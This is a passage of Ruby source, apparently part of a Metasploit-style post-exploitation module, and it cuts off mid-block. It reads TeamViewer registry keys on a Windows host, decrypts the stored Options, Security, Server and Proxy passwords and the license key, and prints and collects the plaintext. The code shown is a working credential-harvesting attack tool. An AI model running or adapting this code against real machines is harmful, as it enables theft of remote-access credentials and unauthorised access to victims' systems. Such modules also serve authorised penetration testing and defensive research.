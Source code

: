 ```ruby
      [ "HKLM\\SOFTWARE\\TeamViewer\\Temp", "SecurityPasswordExported" ],
      [ "HKLM\\SOFTWARE\\TeamViewer", "Version" ],
    ]

    keys.each do |keyx86|

      #parent key
      p = keyx86[0,1].join

      #child key
      c = keyx86[1,1].join

      key      = nil
      keychunk = registry_getvaldata(p, c)
      key      = keychunk.unpack("C*") if not keychunk.nil?

      optpass  = registry_getvaldata(p, "OptionsPasswordAES")
      secpass  = registry_getvaldata(p, "SecurityPasswordAES")
      secpasse = registry_getvaldata(p, "SecurityPasswordExported")
      servpass = registry_getvaldata(p, "ServerPasswordAES")
      proxpass = registry_getvaldata(p, "ProxyPasswordAES")
      license  = registry_getvaldata(p, "LicenseKeyAES")

      if not optpass.nil? 
        decvalue = decrypt(optpass)
        if not decvalue.nil?
          print_good("Found Options Password: #{decvalue}")
          results << "Options:#{decvalue}\n"
        end
      end
      if not secpass.nil? 
        decvalue = decrypt(secpass)
        if not decvalue.nil?
          print_good("Found Security Password: #{decvalue}")
          results << "Security:#{decvalue}\n"
        end
      end
      if not secpasse.nil? 
        decvalue = decrypt(secpasse)
        if not decvalue.nil?
          print_good("Found Security Password Exported: #{decvalue}")
          results << "SecurityE:#{decvalue}\n"
        end
      end
      if not servpass.nil? 
        decvalue = decrypt(servpass)
        if not decvalue.nil?
          print_good("Found Server Password: #{decvalue}")
          results << "Server:#{decvalue}\n"
        end
      end
      if not proxpass.nil? 
        decvalue = decrypt(proxpass)
        if not decvalue.nil?
          print_good("Found Proxy Password: #{decvalue}")
          results << "Proxy:#{decvalue}\n"
        end
      end
      if not license.nil? 
        decvalue = decrypt(license)
        if not decvalue.nil?
          print_good("Found License Key: #{decvalue}")
          results << "License:#{decvalue}\n"
```